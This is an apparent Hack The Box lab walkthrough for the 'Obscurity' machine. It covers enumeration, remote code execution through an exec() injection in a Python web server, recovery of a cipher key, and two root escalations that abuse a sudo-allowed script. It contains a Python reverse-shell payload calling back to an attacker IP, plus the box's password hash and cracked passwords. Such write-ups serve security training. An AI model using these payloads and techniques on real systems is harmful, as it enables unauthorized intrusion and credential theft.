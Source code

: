 ```yaml
---
layout: writeup
redirect_from: /walkthroughs/obscurity.html
title: Obscurity
show-avatar: false
logo: /assets/img/writeups/htb/boxes/obscurity/obscurity_logo.png
platform: HTB
category: Boxes
OS: Linux
difficulty: Medium
release: "30 Nov 2019"
creator_name: "clubby789"
creator_url: "https://app.hackthebox.com/users/83743"
published: "2019-12-03"
---
```


**Cliffs:** Find source code for the webserver in hidden directory and analyze it to figure out RCE that will give low privilege shell. In user directory there is a python encryption script we can use to figure out users password. As user we can run a python script meant to replace SSH that we can use to gain access to roots password hash or simply to access the root flag.

<h2 align="center">Enumeration</h2>


Starting with standard nmap scan...

```
# Nmap 7.80 scan initiated Sun Dec  1 14:14:06 2019 as: nmap -sC -sV -p- -oN nmapscan.txt 10.10.10.168                                                        
Nmap scan report for 10.10.10.168                             
Host is up (0.076s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)   
80/tcp   closed http 
8080/tcp open   http-proxy BadHTTPServer
_http-server-header: BadHTTPServer
_http-title: 0bscura
9000/tcp closed cslistener
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec  1 14:16:09 2019 -- 1 IP address (1 host up) scanned in 123.63 seconds
```

If we navigate to the website on port **8080** we see a webpage for a company with a rather interesting take on security. If we run **gobuster** or similar we won't find any useful directories. However reading the page, at the bottom we see 

![secret](/assets/img/writeups/htb/boxes/obscurity/obscurity_webpage.png)

So we know there is a file for us to find, so lets use the following **wfuzz** command to find the directory

```
wfuzz -c -w /usr/share/wordlists/dirb/small.txt 10.10.10.168:8080/FUZZ/SuperSecureServer.py
```

![wfuzz](/assets/img/writeups/htb/boxes/obscurity/obscurity_wfuzz.png)

Navigating to *ht<span>tp://</span>10.10.10.168:8080/develop/SuperSecureServer.py* we are greeted by the code.

Analyzing the code, in the serveDoc() function we see

```python
info = "output = 'Document: {}'" # Keep the output for later debug
exec(info.format(path)) # This is how you do string formatting, right?
```

Since we have control over the path, we can use that to get exec() to run code we want. We just need to make sure and correctly handle the closing of quotes, since the first part of the info variable is something we don't have control over (output = 'Document: ), nor is the very last character (a single quote). We want to get it into the form

```python
output = 'Document: '
<our code for a shell>
''
```

but since it's all one line in a string, we will use a semi colon. So info will actually look like

```python
info = "output = 'Document: ';<our code for a shell>;''"
```

so our path will be

```
10.10.10.168:8080/';<our shell code>;'
```

So what should we use to get a shell? We know the box is running python, so lets use the python reverse shell from <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python">PayloadsAllTheThings</a>. The script has already imported socket, subprocess, and os, so we can remove those. So our path is the following

```
10.10.10.168:8080/';s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash");'
```

If we set a netcat listener and visit that url, we will found ourselves with a shell as user **www-data**

![shell](/assets/img/writeups/htb/boxes/obscurity/obscurity_shell.png)

Enumerating the machine will turn up a number of interesting files in the */home/robert* directory.
We have **check.txt** which outputs

```
www-data@obscure:/home/robert$ cat check.txt 
Encrypting this file with your key should result in out.txt, make sure your key is correct! 
```

So it looks like we have a plaintext and a ciphertext (**out.txt**), so let's take a look at **SuperSecureCrypt.py** and see if we can figure out how it's encrypting things. Looking at the encrypt() function

```python
def encrypt(text, key):
    keylen = len(key)
    keyPos = 0
    encrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr + ord(keyChr)) % 255)
        encrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return encrypted
```

The key line is

```python
newChr = chr((newChr + ord(keyChr)) % 255)
```

It is simply tacking a character from the plaintext and adding it to a character from the key and outputting the resulting character. This is a **Vigenere cipher**. So if we have *plaintext + key = ciphertext*, to get the key just like solving any formula we subtract plaintext from each side of the equation and have *key = ciphertext - plaintext*. We have a plaintext and ciphertext pair (check.txt and out.txt), so we could write a simple script to do the subtraction, but we don't need to. If we look at the decrypt() function we see it operates by subtracting the key from the ciphertext to give the plaintext. If instead we give it our plaintext as they key, it will give us the key. We copy the necessary files to */dev/shm* since we don't have write access in the robert directory

```
www-data@obscure:/dev/shm$ python3 SuperSecureCrypt.py -i out.txt -o key.txt -k "Encrypting this file with your key should result in out.txt, make sure your key is correct!" -d
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
  ############################
  #        FILE MODE         #
  ############################
Opening file out.txt...
Decrypting...
Writing to key.txt...
www-data@obscure:/dev/shm$ cat key.txt
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovich
```

The key is **alexandrovich**, which we can now use to decrypt **passwordreminder.txt**, which decrypts to **SecThruObsFTW**, which is the ssh and user pass for robert, we now have access to user.txt

<h2 align="center">On To Root!</h2>
So now that we are user we can check out the **BetterSSH.py** file in */home/robert/BetterSSH/*. We could read it before, but as we will see the code is accessing the /etc/shadow file, so we need root permisions to make it work. Which we fortunately have with robert as we can see below

```
robert@obscure:~/BetterSSH$ sudo -l
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

The script gets the password hashes from the */etc/shadow* file and then compares it to the hash of the password you enter for a user. If they match then it gives you a faux shell. 



**Method #1:** 
Fortunatelyfor us, for some reason the script also copies the output of the shadow file to a random file in */tmp/SSH*/ as shown in the snippet of code below

```python
passwordFile = '\n'.join(['\n'.join(p) for p in passwords]) 
    with open('/tmp/SSH/'+path, 'w') as f:
        f.write(passwordFile)
    time.sleep(.1)
```

Unfortunately after it pauses for .1 seconds, every code path then leads to the deletion of that file. However, we don't need anymore time than that. Using **Watch** which is a linux program that runs a command repeatedly and also allows us to set the interval to .1 seconds, we will watch */tmp/SSH*/ and have it copy the directory every .1 seconds. When the password file is written to that directory, watch will grab a copy of it before it's deleted. We issue the following command

```
robert@obscure:~/BetterSSH$ watch -n .1 cp /tmp/SSH/* /dev/shm
```

Also make sure to create the */SSH/* directory if it doesn't already exist. Watch takes over the terminal, so we will need to open a seperate SSH session as robert so we can run the python script.

```
robert@obscure:/dev/shm$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py 
Enter username: Hilbert
Enter password: blahblahblah
Invalid user
robert@obscure:/dev/shm$ ls 
BCozoXF5
```

We have succesfuly copied the file. Looking at the file we can see the hash for user root is

```
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
```

Lets crack it! Using **John the ripper** and the wordlist **rockyou.txt**. We issue the following commands
![crack](/assets/img/writeups/htb/boxes/obscurity/obscurity_mercedes.png)

As we can see the root password is *mercedes*. And we now have access to the root flag.

![root](/assets/img/writeups/htb/boxes/obscurity/obscurity_root.png)



**Method #2:**
Looking at the script we see If we enter a correct password for user, we are authenticated and get a "shell"

```python
if session['authenticated'] == 1:
    while True:
        command = input(session['user'] + "@Obscure$ ")
        cmd = ['sudo', '-u',  session['user']]
        cmd.extend(command.split(" "))
        proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)

        o,e = proc.communicate()
        print('Output: ' + o.decode('ascii'))
        print('Error: '  + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')
```

Every command we enter is prefixed with *sudo -u \<username\>*, but since the script is running as root we can just append another *-u* flag on to execute commands as root. Since we have the password for robert we are able to authenticate via the script
![method2](/assets/img/writeups/htb/boxes/obscurity/obscurity_method2.png)
